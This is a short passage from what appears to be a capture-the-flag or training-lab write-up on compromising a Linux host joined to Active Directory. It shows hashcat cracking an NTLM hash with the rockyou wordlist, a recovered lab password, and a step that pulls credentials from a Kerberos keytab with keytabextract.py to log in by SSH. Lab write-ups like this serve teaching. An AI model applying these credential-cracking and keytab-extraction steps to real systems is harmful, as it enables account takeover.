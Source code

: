 `nano hash.txt`&#x20;

`hashcat hash.txt -m 1000 -a 0 /usr/share/wordlists/rockyou.txt`

<figure><img src=".gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Password5

<figure><img src=".gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

**Check Carlos' crontab, and look for keytabs to which Carlos has access. Try to get the credentials of the user svc\_workstations and use them to authenticate via SSH. Submit the flag.txt in svc\_workstations' home directory.**

`crontab -l`

`python3 /opt/keytabextract.py svc_workstations._all.kt`

<figure><img src=".gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>
